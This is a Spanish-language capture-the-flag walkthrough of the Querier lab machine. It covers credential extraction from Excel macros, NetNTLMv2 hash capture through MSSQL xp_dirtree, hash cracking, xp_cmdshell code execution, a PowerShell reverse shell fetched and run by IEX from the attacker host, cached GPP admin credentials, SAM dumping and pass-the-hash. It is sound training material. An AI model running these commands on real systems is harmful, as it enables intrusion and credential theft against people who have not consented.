# Querier

`Querier` es un sistema operativo Windows de dificultad media que tiene una hoja de cálculo de Excel en un recurso compartido de archivos legible para todo el mundo. La hoja de cálculo tiene macros que se conectan al servidor `MSSQL` que se ejecuta en el sistema. El servidor SQL se puede utilizar para solicitar un archivo a través del cual se pueden filtrar y descifrar los `hashes NetNTLMv2` para recuperar la contraseña de texto sin formato. Después de iniciar sesión, se puede utilizar `PowerUp` para buscar las credenciales de administrador en un archivo de política de grupo almacenado en caché local.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina Querier.

```bash
nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.125 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Lanzaremos una serie de scripts básicos para intentar buscar vulnerabilidades en los puertos que hemos encotrado expuestos.


```bash
nmap -sCV -p135,139,445,1433,5985,47001,49664,49665,49666,49667,49668,49669,49670,49671 10.10.10.125 -oN targeted
```


<figure><figcaption></figcaption></figure>

Procederemos a añadir la entrada en nuestro archivo **/etc/hosts**

```bash
catnp /etc/hosts | grep querier.htb.local
```

Comprobaremos a qué tipo de máquina nos enfrentamos a través de **netexec**, nos muestra que puede ser un Windows 10 o Windows Server 2019

```bash
netexec smb 10.10.10.125
```

<figure><figcaption></figcaption></figure>

## SMB Enumeration

Procederemos a enumerar el servicio de SMB que hemos encontrado expuesto. Probaremos de listar los recursos compartidos para ver que encontramos.&#x20;

```bash
smbclient -L 10.10.10.125 -N 2>/dev/null
```

<figure><figcaption></figcaption></figure>

Procederemos a conectarnos al recurso compartido nombrado "Reports" y nos descargaremos todo el contenido de dicho recurso en nuestro equipo local.

```bash
smbclient //10.10.10.125/Reports
```

<figure><figcaption></figcaption></figure>

## Macro Inspection (olevba)

Comprobamos que disponía de un archivo .xlsm, que corresponde a un Excel. Abriendo el Excel con LibreOffice, comprobamos que nos salta un mensaje informando que este documento contiene Macros.

<figure><figcaption></figcaption></figure>

Procederemos a inspeccionar el contenido de las macros del documento con la herramienta de **olevba**. Comprobamos que en las macros aparece el nombre de un usuario y unas credenciales.

```bash
olevba -c 'Currency Volume Report.xlsm'
```

<figure><figcaption></figcaption></figure>

## Checking credentials found with Netexec

Guadaremos las credenciales encontradas para verificar si son válidas o no.

```bash
catnp credentials.txt
```

<figure><figcaption></figcaption></figure>

Con la herramienta de **netexec** intentaremos autenticarnos al SMB con las credenciales encontradas, con el primer comando no hemos podido establecer conexión, poniendo que es una cuenta de equipo (-d WORKGROUP) nos confirma que las credenciales son válidas.

Por lo tanto, podemos saber que este usuario es un usuario del equipo y no de un dominio.

```bash
netexec smb 10.10.10.125 -u 'reporting' -p 'PcwTWTHRwryjc$c6'

netexec smb 10.10.10.125 -u 'reporting' -p 'PcwTWTHRwryjc$c6' -d WORKGROUP
```

<figure><figcaption></figcaption></figure>

Probaremos de intentar comprobar si con dicho usuario tenemos acceso al WinRM, nos niega la conexión. Por lo tanto, el usuario no forma parte del grupo de Administración remota.

```bash
netexec winrm 10.10.10.125 -u 'reporting' -p 'PcwTWTHRwryjc$c6' -d WORKGROUP
```

<figure><figcaption></figcaption></figure>

## MSSQL service connection

Como hemos visto que el servicio de MSSQL se encontraba expuesto (puerto 1433) probaremos de conectarnos. Con el primer comando no obtuvimos la conexión al servicio, pero indicándole que se autentique con (-window-auth) nos dejo acceder con dicho usuario.

```bash
mssqlclient.py WORKGROUP/reporting@10.10.10.125 2>/dev/null

mssqlclient.py WORKGROUP/reporting@10.10.10.125 -windows-auth 2>/dev/null
```

### Attemting to enable xp\_cmdshell component in MSSQL (Failed)

Probaremos de intentar habilitar el componente de **xp\_cmdshell** para así obtener un RCE (Remote Code Execution), pero comprobamos que con el usuario autenticado no disponemos de permisos para  habilitar dicho componente.

```sql
SP_CONFIGURE "show advanced options", 1

xp_cmdshell "whoami"
```

<figure><figcaption></figcaption></figure>

### MSSQL Hash Stealing \[Net-NTLMv2] (xp\_dirtree)

En este punto lo que haremos es intentar abusar del componente **xp\_dirtree** para obtener los hashes NTLMv2.

En nuestra Kali nos montaremos un servicio SMB y des la conexión de MSSQL procederemos a listar el contenido del recurso que estamos compartiendo, en nuestra Kali nos habrá llegado el Hash NTLMv2 de la cuenta de servicio que está consultando con **xp\_dirtree**.&#x20;

Comprobamos que obtuvimos el hash NTLMv2 del usuario "mssql-svc"

```bash
smbserver.py smbFolder $(pwd) -smb2support

xp_dirtree \\10.10.14.13\smbFolder\
```

<figure><figcaption></figcaption></figure>

Nos guardaremos el hash obtenido en el archivo "hash.txt".

```bash
catnp hash.txt
```

<figure><figcaption></figcaption></figure>

## Cracking hashes with JohnTheRipper

Procederemos a crackear el hash con la herramienta de **john** para así lograr saber qué contraseña pertenece a ese hash. Comprobamos que el hash ha sido crackeado y la contraseña correspondiente es: _corporate568_

```bash
john  hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><figcaption></figcaption></figure>

### Checking new credentials found with Netexec

Validaremos con **netexec** de que las credenciales encontradas son válidas para el usuario. Comprobamos que como usuario de dominio no nos indica que tenemos autenticación, pero indicándole que es un WORKGROUP si.

```bash
netexec smb 10.10.10.125 -u 'mssql-svc' -p 'corporate568'

netexec smb 10.10.10.125 -u 'mssql-svc' -p 'corporate568' -d WORKGROUP
```

<figure><figcaption></figcaption></figure>

Probaremos de intentar revisar si tenemos acceso al WinRM con este nuevo usuario, sin exito tampoco.

```bash
netexec winrm 10.10.10.125 -u 'mssql-svc' -p 'corporate568' -d WORKGROUP
```

<figure><figcaption></figcaption></figure>

## MSSQL service connetion

Como esta cuenta parece ser la cuenta de servicio de MSSQL, probaremos de acceder al servicio con dichas credenciales. Comprobamos que también ganamos acceso con dicho usuario.

```bash
mssqlclient.py WORKGROUP/mssql-svc@10.10.10.125 -windows-auth 2>/dev/null
```

<figure><figcaption></figcaption></figure>

### Enabling xp\_cmdshell component in MSSQL service (RCE)

Con el usuario anterior que probamos no teníamos acceso a habilitar el componente **xp\_cmdshell**, probaremos con este usuario de habilitar el componente.

Comprobamos que podemos habilitarlo y efectuar un RCE (Remote Code Execution)

```sql
SP_CONFIGURE "show advanced options", 1

RECONFIGURE

SP_CONFIGURE "xp_cmdshell", 1

RECONFIGURE

xp_cmdshell "whoami"
```

<figure><figcaption></figcaption></figure>

### Getting Reverse Shell with PowerShellTcp.ps1

Procederemos a abusar de este RCE otorgándonos una Reverse Shell. Para ello, en nuestra Kai nos descargaremos el [**PowerShellTcp.ps1**](https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1) y lo renombraremos a "PS.ps1".&#x20;


```bash
wget https://raw.githubusercontent.com/samratashok/nishang/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1

mv Invoke-PowerShellTcp.ps1 PS.ps1
```


<figure><figcaption></figcaption></figure>

Modificaremos el script y en la última línea añadiremos la siguiente línea para que así invoque el comando para otorgarnos la Reverse Shell a nuestro equipo por el puerto especificado.

```bash
catnp PS.ps1 | grep 10.10.14.13
```

<figure><figcaption></figcaption></figure>

En nuestra Kali, deberemos de levantar un servidor web con Python para compartir el archivo, des de otra terminal nos pondremos en escucha con **nc** por el puerto especificado en el script y des de la terminal donde hemos accedido anteriormente al MSSQL ejecutaremos con el componente **xp\_cmdshell** la instrucción para que ejecute el comando de Powershell sobre el script que tenemos alojado en nuestra Kali.

Comprobamos que ganamos acceso al equipo en la terminal donde estabamos en escucha. Verificamos la flag de **user.txt**.


```bash
python3 -m http.server 80

rlwrap nc -nlvp 443

xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.13/PS.ps1\")"
```


<figure><figcaption></figcaption></figure>

## Privilege Escalation

### Enumerating PrivEsc with PowerUp.ps1

Probaremos de encontrar posibles vectores para realizar un PrivEsc y elevar nuestros privilegios como usuario Administrador.

Para ello, en nuestra Kali nos descargaremos el script de [PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Privesc/PowerUp.ps1).


```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Privesc/PowerUp.ps1
```


<figure><figcaption></figcaption></figure>

Modificaremos el script y en la última línea añadiremos (Invoke-AllChecks) para así obtener toda la información de posibles vectores para escalar privilegios.

Nos montaremos un servidor web con Python para compartir dicho script y des de la terminal donde hemos ganado acceso al equipo, procederemos a ejecutar el script que tenemos alojado en nuestra Kali importándolo en memoria con IEX.

Así obtendremos un reporte completode vulnerabilidades potenciales y configuraciones inseguras que podemos aprovechar.


```bash
catnp PowerUp.ps1| tail -n 1

python3 -m http.server 80

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.13/PowerUp.ps1')
```


<figure><figcaption></figcaption></figure>

### Cached GPP Files

En el resultado del escaneo con **PowerUp.ps1** comprobamos que tenemos el privilegio de (SeImpersonatePrivilege) lo que podríamos directamente impersonar al usuario "Administrator".

Y también vemos que ha encontrado un archivo .xml dentro del equipo en el cual disponía de las credenciales GPP del usuario Administrator, ya nos hace el (gpp -decrypt) y nos aparece la contraseña en texto plano.

<figure><figcaption></figcaption></figure>

### Checking Administrator's password with Netexec

Verificaremos que podemos acceder con las credenciales del usuario Administrator al WinRM. Le especificaremos que el domain es un WORKGROUP, sino nos dará error como en el primer comando.


```bash
netexec winrm 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!'

netexec winrm 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP
```


<figure><figcaption></figcaption></figure>

### ShellOver Evil-WinRM

Procederemos a conectarnos con **evil-winrm** al equipo con el usuario Adminsitrator y sus respectivas credenciales. Verificaremos la flag de **root.txt**.

```bash
evil-winrm -i 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!'
```

<figure><figcaption></figcaption></figure>

### Dumping hashes of accounts with Netexec

Por otra parte, obtenida la contraseña del usuario Administrator, podemos dumpear todos los hashes de los usuarios del equipo a través de **netexec** para luego realizar un PassTheHash sin conocer las credenciales de los usuarios.


```bash
netexec smb 10.10.10.125 -u 'Administrator' -p 'MyUnclesAreMarioAndLuigi!!1!' -d WORKGROUP --sam 2>/dev/null
```


<figure><figcaption></figcaption></figure>

### PassTheHash with wmiexec.py

Probaremos con **wrmiexec.y** de acceder con el usuario Administrator y su respectivo hash NTLM al equipo, comprobamos que podemos acceder sin saber la contraseña del usuario Administrator. Esto lo podríamos realizar con el resto de usuarios que disponemos de su hash NTLM.


```bash
wmiexec.py WORKGROUP/Administrator@10.10.10.125 -hashes :2dcefe78334b42c0ce483b8e1b2886ab
```


<figure><figcaption></figcaption></figure>
